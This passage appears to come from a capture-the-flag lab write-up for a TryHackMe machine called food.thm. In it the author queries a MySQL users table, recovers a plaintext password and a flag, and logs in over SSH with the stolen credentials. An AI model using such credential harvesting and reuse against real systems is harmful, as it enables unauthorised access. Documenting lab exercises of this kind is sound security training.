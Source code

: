 mysql> use users;
sReading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| User            |
+-----------------+
1 row in set (0.18 sec)

mysql> select * from User;
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+
2 rows in set (0.13 sec)

Flag 1 - thm{2f30841ff8d9646845295135adda8332}


We got username and password.
Lets go for ssh

ramen:noodlesRTheBest

root@LAPTOP-U5913CMD:/home/akshay# ssh ramen@food.thm
The authenticity of host 'food.thm (10.10.179.166)' can't be established.
ECDSA key fingerprint is SHA256:N7ASA0s9oqLPm9OT5QAEpcMYTqs2b3BFgpftASit74s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'food.thm,10.10.179.166' (ECDSA) to the list of known hosts.
ramen@food.thm's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov 19 13:00:07 UTC 2020

  System load:  0.08              Processes:           91
  Usage of /:   43.7% of 9.78GB   Users logged in:     0
  Memory usage: 66%               IP address for eth0: 10.10.179.166
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.

